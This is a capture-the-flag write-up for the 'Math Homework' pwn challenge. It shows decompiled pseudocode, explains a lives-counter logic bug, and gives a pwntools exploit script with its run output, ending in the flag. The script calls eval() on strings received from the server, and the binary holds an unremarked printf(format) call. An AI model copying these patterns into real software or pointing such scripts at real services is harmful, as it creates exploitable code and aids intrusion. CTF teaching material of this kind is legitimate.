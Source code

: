 # Pwn 200 - Math Homework

We are given a nc server, ```nc 40.76.33.15 55777```, and a 64 bit binary.

Here is the pseudocode:

```C
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  const char *v4; // rdi
  const char **v5; // [rsp+0h] [rbp-30h]
  char v6; // [rsp+1Fh] [rbp-11h]
  signed int i; // [rsp+20h] [rbp-10h]
  int v8; // [rsp+24h] [rbp-Ch]
  char *format; // [rsp+28h] [rbp-8h]

  v5 = argv;
  v6 = 0;
  v8 = 3;
  v3 = time(0LL);
  srand(v3);
  v4 = "I haven't done any homework all semester! Can you help with my math homework? I can only get three wrong...";
  puts("I haven't done any homework all semester! Can you help with my math homework? I can only get three wrong...");
  while ( 1 )
  {
    for ( i = 0; i <= 25; ++i )
    {
      format = (char *)generateExpression(v4);
      printf("%d. \n", (unsigned int)i, v5);
      printf(format);
      if ( (unsigned __int8)validateExpression(format) ^ 1 )
        printf("That was wrong! Lives left: %d", (unsigned int)--v8);
      else
        v6 = 1;
      checkState(v8, i == 25);
      putchar(10);
      v4 = format;
      free(format);
    }
    v4 = "If only there was a way I could get these homeworks to stop...";
    puts("If only there was a way I could get these homeworks to stop...");
    if ( v6 != 1 )
      end("If only there was a way I could get these homeworks to stop...");
    v6 = 0;
  }
}

signed __int64 __fastcall checkState(int a1, char a2)
{
  if ( a2 )
    return 2LL;
  if ( a1 )
    return 0LL;
  puts("\nArgh! I'm never going to finish at this rate!");
  exit(0);
  return 0LL;
}
```

First, we run the binary and see what it does:

```
alex@WINDOWS-0A3VRFK:/mnt/c/Users/alex/Desktop/CTF$ ./mathHomework
I haven't done any homework all semester! Can you help with my math homework? I can only get three wrong...
0.
8+0=8

1.
5+5=10

2.
5+1=
```

So it generates some math expressions and we have to provide the answer.

You can reverse this binary more, but I'll just skip to the vulnerability. The bug is in checkState. The program uses checkState in the following way:

The first argument is our lives, and the second argument is the question number, or loop counter. Essentially, checkState checks if we run out of lives or not, if we do, then the program exits.

However, if it's the last question, the checkState returns automatically without checking our lives. Basically what we can do with this is that if our lives decrement to 0 on the last question, then the program doesn't exit. Now, becuase checkState only checks if our lives is exactly 0, we can now decrement our lives to a negative number, which will pass the checkState lives check.

Now the flag is printed from the function end:

```C
void __noreturn end()
{
  puts("\nEh, I can just make it up on the final.");
  system("cat flag.txt");
  exit(0);
}
```

To reach end, all we have to do is not get a single question correct. Since our lives is now negative and it only decrements, we can just get all the questions wrong and receive the flag. My python program implementing this is shown below:

```python
from pwn import *

r = remote("40.76.33.15", 55777)
for i in range(23):
	r.recvuntil(str(i) + ".")
	r.recvline()
	tosolve = r.recvuntil("=").strip("=")
	ans = eval(tosolve)
	r.sendline(str(ans))

for i in range(29):
	r.sendline("9999")

r.interactive()
```

```
[x] Opening connection to 40.76.33.15 on port 55777
[x] Opening connection to 40.76.33.15 on port 55777: Trying 40.76.33.15
[+] Opening connection to 40.76.33.15 on port 55777: Done
[*] Switching to interactive mode

23. 
1*1=That was wrong! Lives left: 2
24. 
9|5=That was wrong! Lives left: 1
25. 
6+5=That was wrong! Lives left: 0
If only there was a way I could get these homeworks to stop...
0. 
7/9=That was wrong! Lives left: -1
1. 
5-4=That was wrong! Lives left: -2
2. 
5^8=That was wrong! Lives left: -3
3. 
7*9=That was wrong! Lives left: -4
4. 
9&6=That was wrong! Lives left: -5
5. 
0+1=That was wrong! Lives left: -6
6. 
0/1=That was wrong! Lives left: -7
7. 
8/5=That was wrong! Lives left: -8
8. 
2+2=That was wrong! Lives left: -9
9. 
7+1=That was wrong! Lives left: -10
10. 
4|2=That was wrong! Lives left: -11
11. 
5/6=That was wrong! Lives left: -12
12. 
1|4=That was wrong! Lives left: -13
13. 
9/1=That was wrong! Lives left: -14
14. 
0-5=That was wrong! Lives left: -15
15. 
9-0=That was wrong! Lives left: -16
16. 
0/3=That was wrong! Lives left: -17
17. 
3|6=That was wrong! Lives left: -18
18. 
8*1=That was wrong! Lives left: -19
19. 
3-2=That was wrong! Lives left: -20
20. 
6^0=That was wrong! Lives left: -21
21. 
8+6=That was wrong! Lives left: -22
22. 
5^9=That was wrong! Lives left: -23
23. 
9*9=That was wrong! Lives left: -24
24. 
3/1=That was wrong! Lives left: -25
25. 
8^3=That was wrong! Lives left: -26
If only there was a way I could get these homeworks to stop...

Eh, I can just make it up on the final.
b0ctf{stillbetterthanwebassign}
[*] Got EOF while reading in interactive
[*] Interrupted
[*] Closed connection to 40.76.33.15 port 55777
```

## Flag
### b0ctf{stillbetterthanwebassign}
